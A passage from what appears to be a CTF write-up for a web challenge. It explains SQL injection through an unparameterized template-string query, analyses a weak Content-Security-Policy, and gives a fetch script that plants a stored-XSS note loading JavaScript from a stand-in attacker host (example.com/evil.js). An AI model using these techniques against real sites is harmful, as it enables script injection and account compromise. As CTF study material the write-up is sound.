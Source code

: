 ```javascript
```

Thus even if the `req.body.name` contains single quotes, for example `'=''`, the `pool.query` will execute the query string `SELECT * FROM users WHERE name = $1`. `$1` means the first element of params, so I think it's not possble to perform SQL injection.


But they put an extra parenthesis in route `notes/:noteId/pin`:
```javascript
await req.db.run(`UPDATE notes SET pinned = ${req.body.value}::boolean WHERE id = ${req.params.noteId}`);
```
The string template evaluate first and then pass to `db.run as` a string. We can bypass WAF by using `body.value` to modify title.

#### Bypass CSP

The server-side CSP:

```javascript
app.use((req, res, next) => {
  res.set('X-XSS-Protection', '0');
  res.set('Content-Security-Policy', `
    default-src 'none';
    script-src 'nonce-${res.locals.nonce}' 'strict-dynamic';
    style-src 'self' https://stackpath.bootstrapcdn.com/bootstrap/4.1.3/css/bootstrap.min.css;
    img-src 'self';
    connect-src 'self';
    frame-src https://www.google.com/recaptcha/;
    form-action 'self';
  `.replace(/\n/g, ''));
  next();
});
```

We can use https://csp-evaluator.withgoogle.com/ to help validate the CSP.

Due to the `connect-src`, we cannot send a cross-origin request. However, the `script-src` and `base-url` is not set properly. Either way can be used to bypass the CSP. I'll use `script-src` to bypass the CSP here. For `base-uri` please refer to [this writeup](https://github.com/aicioara/ctf/tree/master/2018/2018-05-20-RCTF/web/rBlog2018).

Since `script-src` is not limited to `self`, we can load javascript from our own website. Additionally, we can even dynamically load javascript from specify URL. 

Let's first create a XSS note:
```javascript
(async () => {
  const rawResponse = await fetch('http://nodepad.hackable.software:3000/notes/new', {
    method: 'POST',
    headers: {
      'Accept': 'application/json',
      'Content-Type': 'application/json'
    },
    body: JSON.stringify({"_csrf": "MHADRFbE-bArsw8pA-f5ZUGpqUM7lMMh_Qfw", "title": {"a":'<script src=http://example.com/evil.js   > //'}, "content": "Balsn"})
  });
  const content = await rawResponse;

  console.log(content);
})();
```
